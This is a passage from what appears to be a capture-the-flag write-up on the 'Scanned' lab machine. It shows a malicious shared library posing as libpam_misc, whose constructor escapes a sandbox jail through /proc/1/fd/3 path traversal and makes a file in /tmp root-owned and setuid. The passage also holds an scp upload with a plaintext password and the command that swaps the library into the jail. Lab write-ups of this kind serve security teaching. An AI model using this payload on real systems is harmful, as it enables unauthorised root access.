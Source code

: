     
           int misc_conv(int num_msg, const struct pam_message **msgm,
                         struct pam_response **response, void *appdata_ptr);
    

I’ll add this to the library, and just have it return 1:

    
    
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/stat.h>
    
    int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
        return 1;
    }
    
    static __attribute__ ((constructor)) void init(void) {
    
        char fn[120] = "/proc/1/fd/3/../../../../../../../../tmp/0xdf";
        char mode[] = "4777";
        int mode_int = strtol(mode, 0, 8);
        chown(fn, 0, 0);
        chmod(fn, mode_int);
    }
    

When I compile it, there are warnings for unknown types, but that’s ok:

    
    
    oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 
    setuidlib.c:5:68: warning: ‘struct pam_response’ declared inside parameter list will not be visible outside of this definition or declaration
        5 | int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
          |                                                                    ^~~~~~~~~~~~
    setuidlib.c:5:41: warning: ‘struct pam_message’ declared inside parameter list will not be visible outside of this definition or declaration
        5 | int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
          | 
    

I’ll upload it to Scanned:

    
    
    oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' scp setuidlib.so clarence@10.10.11.141:/dev/shm
    

#### Success

I’ll run again, updating `libpam_misc.so.0` with `setuidlib.so`:

    
    
    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam_misc.so.0; echo "copied libs"
    [1] 124401
    copied libs
    /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam_misc.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
    su: user root does not exist or the user entry does not contain all the required fields
    Exited
    Kill err: (3)
    